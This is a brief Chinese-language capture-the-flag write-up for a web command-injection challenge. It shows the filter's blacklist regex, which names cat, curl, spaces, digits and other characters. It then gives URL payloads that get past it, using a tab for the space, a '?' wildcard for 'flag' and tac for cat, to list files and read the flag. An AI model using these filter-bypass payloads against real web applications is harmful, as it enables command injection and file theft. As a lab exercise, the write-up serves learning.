 ![image-20240120130620027](image/image-20240120130620027.png)

过滤了

```
"/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i"
```

没有影响

查看flag位置

```
?c=ls%26
```

![image-20240120130747697](image/image-20240120130747697.png)

构建命令

```
?c=tac%09fla?.php%26
```

得到flag
